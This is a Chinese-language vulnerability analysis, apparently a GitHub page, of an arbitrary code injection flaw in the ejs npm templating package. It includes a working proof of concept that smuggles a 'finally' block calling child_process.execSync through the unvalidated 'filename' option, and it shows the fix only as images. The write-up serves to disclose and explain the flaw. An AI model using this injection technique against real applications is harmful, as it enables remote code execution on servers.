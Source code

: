 # ejs模板任意代码注入（Arbitrary Code Injection）

### ejs*

![](https://github.com/DuLinRain/pictures/blob/master/arbitrary_code_injection/arbitrary_code_injection_1.png?raw=true)

![](https://github.com/DuLinRain/pictures/blob/master/arbitrary_code_injection/arbitrary_code_injection_2.png?raw=true)

### 漏洞分析
[ejs](https://www.npmjs.com/package/ejs)是一个非常流行的开源NPM包，其在模板编译过程中，内部生成的模板会有一个在最后添加注释的操作：

![](https://github.com/DuLinRain/pictures/blob/master/arbitrary_code_injection/arbitrary_code_injection_3.png?raw=true)

这个地方直接取的是`filename`。内部生成的模板如下：

	try {
	  var __output = "";
	  function __append(s) { if (s !== undefined && s !== null) __output += s }
	  with (locals || {}) {
	    ; __append(escapeFn( people.join(", ") ))
	  }
	  return __output;
	} catch (e) {
	  rethrow(e, __lines, __filename, __line, escapeFn);
	}
	//# sourceURL=xxx
	
	
ejs的基本用法如下:

	let template = ejs.compile(str, options);
	template(data);
	// => Rendered HTML string
	 
	ejs.render(str, data, options);
	// => Rendered HTML string
	 
	ejs.renderFile(filename, data, options, function(err, str){
	    // str => Rendered HTML string
	});
	
	
可以通过`options`参数来提交一个`filename`参数，这个参数没有做严格的校验，所以，假设我们写如下代码：

	let people = ['geddy', 'neil', 'alex'],
	      html = ejs.render('<%= people.join(", "); %>', {people: people}, {
	        compileDebug: true,
	        client: true,
	        filename:'/etc/passwd\nfinally { this.global.process.mainModule.require(\'child_process\').execSync(\'touch EJS_HACKED\') }'
	      });
	      
	      
ejs编译过程中的模板如下：

	var __line = 1
	  , __lines = "<%= people.join(\", \"); %>"
	  , __filename = "/etc/passwd\nfinally { this.global.process.mainModule.require('child_process').execSync('touch EJS_HACKED') }";
	try {
	  var __output = "";
	  function __append(s) { if (s !== undefined && s !== null) __output += s }
	  with (locals || {}) {
	    ; __append(escapeFn( people.join(", ") ))
	  }
	  return __output;
	} catch (e) {
	  rethrow(e, __lines, __filename, __line, escapeFn);
	}
	
	//# sourceURL=/etc/passwd
	finally { this.global.process.mainModule.require('child_process').execSync('touch EJS_HACKED') }
	
在这里，我们恰好利用这个漏洞在内部模板里通过`\n`注入了`finally`代码块，在里面可以执行任意JS(这里的示例是创建了一个EJS_HACKED文件)。

### 漏洞修复
修复方式：

![](https://github.com/DuLinRain/pictures/blob/master/arbitrary_code_injection/arbitrary_code_injection_4.png?raw=true)

![](https://github.com/DuLinRain/pictures/blob/master/arbitrary_code_injection/arbitrary_code_injection_5.png?raw=true)